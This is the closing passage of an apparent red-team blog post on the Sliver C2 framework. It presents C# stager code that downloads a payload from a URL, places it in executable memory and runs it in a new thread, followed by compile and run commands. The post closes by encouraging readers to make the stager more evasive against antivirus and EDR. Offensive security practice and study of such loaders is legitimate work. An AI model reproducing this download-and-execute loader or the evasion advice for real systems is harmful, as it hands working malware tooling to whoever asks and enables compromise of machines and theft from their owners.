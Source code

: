 ```csharp
            IntPtr addr = VirtualAlloc(IntPtr.Zero, (uint)decompressed.Length, 0x3000, 0x40);
            Marshal.Copy(decompressed, 0, addr, decompressed.Length);

            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
            WaitForSingleObject(hThread, 0xFFFFFFFF);

            return;
        }

        // Main Entry
        public static void Main(String[] args) 
        {
            // Get stagd payload
            byte[] output = Download(url);

            Execute(output);

            return;
        }
    }
}
```
Compile the C# payload with csc.exe into an EXE for testing purposes: `C:\windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /target:exe /platform:x64 /out:Sliver-payload.exe Sliver_staged-payload.cs`

Run the output payload `./Sliver-payload.exe` and you should see a new beacon pop up in Sliver!
![image](https://github.com/wsummerhill/wsummerhill.github.io/assets/35749735/ced5d4ca-1f86-459b-92aa-c81bce707990)

Of course for a red team, we want to further customize the stage 1 payload to make it as unique and evasive as possible. It's also recommended to use a DLL instead of an EXE as it will be better for evasion. We aren't going to cover that here as this is just a proof-of-concept, but get as creative as possible to byass that AV/EDR!
<br /><br />
Hope you all enjoyed the Sliver setup!
